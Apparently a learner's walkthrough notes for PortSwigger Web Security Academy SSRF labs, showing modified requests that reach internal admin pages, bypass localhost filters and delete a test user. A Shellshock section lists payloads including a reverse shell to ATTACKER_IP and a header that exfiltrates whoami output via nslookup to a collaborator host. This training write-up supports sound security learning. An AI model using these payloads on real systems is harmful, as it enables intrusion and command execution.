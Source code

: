 # SSRF

---


## lab 1


- > open product and click check stock
  - > in request you find ``stockApi=http://stock.weliketoshop.net:8080/product/stock/check?productId=3&storeId=1``
    > change it to ``stockApi=http://localhost/admin&storeId=3``
    > stockApi=http://localhost/admin/delete?username=carlos&storeId=3



---

## lab 2


- > ``http://192.168.0.1:8080/product/stock/check?productId=4&storeId=1``   send it to intruder 182.168.0.``1``
  > found 192.168.0.239   fond it **``404``**
- > http://192.168.0.239:8080/admin
  > http://192.168.0.239:8080/admin/delete?username=carlos




---


## lab 3


<details>
  <summary>Lab: Blind SSRF with out-of-band detection</summary>


## 1. visit product and see the request replace the ``referrer`` to url form `burp colab`

## **`from`**

```http
GET /product?productId=10 HTTP/2
Host: 0aa300db04961214802e3f50008a00aa.web-security-academy.net
Cookie: session=eKWl8nNqg8d0asyLhuim0DQQUKjA74sW
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aa300db04961214802e3f50008a00aa.web-security-academy.net/        <=======
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

```

## **`to`**


```http
GET /product?productId=3 HTTP/2
Host: 0aa300db04961214802e3f50008a00aa.web-security-academy.net
Cookie: session=eKWl8nNqg8d0asyLhuim0DQQUKjA74sW
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://r7zxj0m1snif5tjpw74kq9bh086zuqif.oastify.com/       <======🔁
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

  
</details>




---


## lab 4


- > try to chnge url to ``http://127.0.0.1/admin`` and it blocked
  > try ``http://127.1/`` it work
  > try ``http://127.1/admin`` it blocked again
  > try ``http://127.1/%2561dmin``
  > http://127.1/%2561dmin/delete?username=carlos




---

## lab 5

- > **/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos**
  



---

## lab 6

<details>
  <summary>Lab: Blind SSRF with Shellshock exploitation</summary>


- <details>
     <summary>what is shellshock</summary>


  <img width="814" height="290" alt="image" src="https://github.com/user-attachments/assets/be879c2b-e0e5-4f4c-a262-5441c3b2b0be" />
  
  <img width="820" height="567" alt="image" src="https://github.com/user-attachments/assets/4db4ec56-05a8-4459-94aa-c0f55c08a3af" />
  
  <img width="594" height="213" alt="image" src="https://github.com/user-attachments/assets/a9a081cc-e01c-45ee-b7b4-1ce7375b09cf" />
  
  <img width="744" height="662" alt="image" src="https://github.com/user-attachments/assets/0e30fe04-2829-4ace-8d2b-7f56ce8cea4c" />
  
  <img width="752" height="650" alt="image" src="https://github.com/user-attachments/assets/a139d0e8-c454-4c87-8a9a-6999fefce0cf" />
  
  <img width="734" height="330" alt="image" src="https://github.com/user-attachments/assets/29397434-0dc7-42fa-9ac3-cc3820ea9d2b" />
  
  ```bash
  env x='() { :;}; echo Vulnerable!' bash -c "echo test"
  () { :;}; /bin/bash -c "bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1"
  () { :;}; /bin/bash -c "ls -la /var/www"
  () { :;}; echo; echo; /bin/bash -c "echo hacked > /tmp/shellshock.txt"
  
  ```
  

     
  </details>



## 1. visit product and see the request replace the ``referrer`` to url to **`http://192.168.0.1:8080/ `** ```and user-agent``` and send the request to intruder to try form 1 - 255 

## **`from`**

```http
GET /product?productId=2 HTTP/1.1
Host: 0ad100c604c5831d81414e85007e009a.web-security-academy.net
Cookie: session=i7LYj4A0hTFYeLdtj8BOLNIsNVERaKb8
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ad100c604c5831d81414e85007e009a.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive


```


## **`to`**

```http
GET /product?productId=2 HTTP/2
Host: 0ad100c604c5831d81414e85007e009a.web-security-academy.net
Cookie: session=i7LYj4A0hTFYeLdtj8BOLNIsNVERaKb8
User-Agent: () { :; }; /usr/bin/nslookup $(whoami).5agbmepfv1lt87m3zl7ytnev3m9dx5lu.oastify.com  🟠🟠🟠
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://192.168.0.1:8080/        🟠🟠🟠
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

```

<img width="1891" height="596" alt="image" src="https://github.com/user-attachments/assets/922e332c-6511-40fa-8567-3bb18b8a2b4b" />

> ## now go to colaborator and pull to see the requests

<img width="1393" height="783" alt="image" src="https://github.com/user-attachments/assets/85de1503-5b79-4573-8752-6e12888c42c7" />



  
</details>





    

